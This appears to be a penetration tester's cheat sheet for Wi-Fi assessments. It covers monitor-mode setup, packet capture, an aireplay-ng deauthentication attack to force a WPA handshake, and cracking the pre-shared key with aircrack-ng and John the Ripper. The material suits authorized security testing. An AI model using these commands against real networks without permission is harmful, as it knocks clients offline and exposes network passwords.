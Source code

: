 # Wi-Fi Assessment Techniques

These are techniques that I have found to work during WiFi assessments (discovery, collection, attack, and crack). This isn't an "end all, be all" list.</br>

# Hardware:
* Need Atheros chipset in the wireless adapter
	* [Check wireless card](https://www.aircrack-ng.org/doku.php?id=compatible_cards)
* TP-Link TL-WN722N
	* has to be earlier than version 2 due to TP-Link updating the chips on the adapters.
* Alfa AWUS051NH

# Configuration: System Setup with Hardware
* Might need to kill Network Manager
```
/etc/init.d/network-manager status
```
```
/etc/init.d/network-manager stop
```
* Ensure hardware is connected
```
lsusb
```
* Check wireless status of network adapter
```
iwconfig
```
* If need to bring up the interface
```
ifconfig wlan0 up
```
* This is an optional step: can stay in Managed mode and scan to do light discovery
```
iwlist wlan0 scanning
```

# Monitor Mode
* This sets wlan0 into Monitor mode. This sets a new interface, typically, mon0 or a variation of ie. wlanmon0
```
airmon-ng start wlan0
```
* Watch aircrack-ng's output of errors. Might need to run:
```
airmon-ng check kill
```
* Monitor for traffic on Monitor interface (i.e. mon0)
```
airodump-ng mon0 
```
* Stopping Monitor Mode when needed
```
airmon-ng stop wlan0mon
```

# Capture traffic
* Interface will your monitor interface that was set above i.e. mon0
```
airodump-ng -c <Channel> --bssid <AP_MAC> -w <File_Prefix> <interface>
```

# WPA-PSK Attack
* Attacking WPA-PSK - Goal: acquire PSK (pre-shared key)
- Need to identify:
	* Name of the wireless network (ESSID)
	* MAC address of the AP (BSSID)
	* Channel that the AP
	* Victim MAC
	* need to capture 4 way handshake
	* Then crack - see below

# Deauth Attack
* In one terminal collect
``` 
airodump-ng -c <CHANNEL> --bssid  <AP_MAC> -w <FILE_PREFIX> <INTERFACE>
```
* In another termainl deauth
```
aireplay-ng --deauth 25 -a <AP_MAC> -c <VICTIM_MAC> <INTERFACE>
```

# Cracking
* Crack with John the Ripper
```
/usr/sbin/john --rules -w=/usr/share/wordlists/rockyou.txt --stdout | aircrack-ng -w - -e <essid> capture.cap
```
* Brute-Force to get the WPA Key (assumption is the packet capture contains the 4 way handshake)
```
aircrack-ng -w /usr/share/wordlists/rockyou.txt wpa_capture.pcap
```
* I've heard hashcat is more effective but I've have not tried this method.

# Wireshark Tips
* Don't forget to add encryption key information to Wireshark
	* From Menu options: Edit->Preferences->IEEE 802.11
